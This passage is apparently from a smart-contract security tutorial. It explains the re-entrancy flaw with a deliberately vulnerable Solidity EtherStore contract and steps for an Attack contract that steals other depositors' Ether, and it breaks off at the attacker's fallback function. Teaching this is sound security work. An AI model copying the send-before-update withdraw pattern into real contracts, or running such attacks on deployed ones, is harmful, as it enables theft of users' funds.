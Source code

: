 

# 1. Re-Entrancy

Code: https://solidity-by-example.org/hacks/re-entrancy/

EtherStore is a contract where you can deposit and withdraw ETH.
This contract is vulnerable to re-entrancy attack.
Let's see why.

1. Deploy EtherStore
2. Deposit 1 Ether each from Account 1 (Alice) and Account 2 (Bob) into EtherStore
3. Deploy Attack with address of EtherStore
4. Call Attack.attack sending 1 ether (using Account 3 (Eve)).
   You will get 3 Ethers back (2 Ether stolen from Alice and Bob,
   plus 1 Ether sent from this contract).

What happened? \
Attack was able to call EtherStore.withdraw multiple times before 
EtherStore.withdraw finished executing.

Here is how the functions were called
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;
contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
```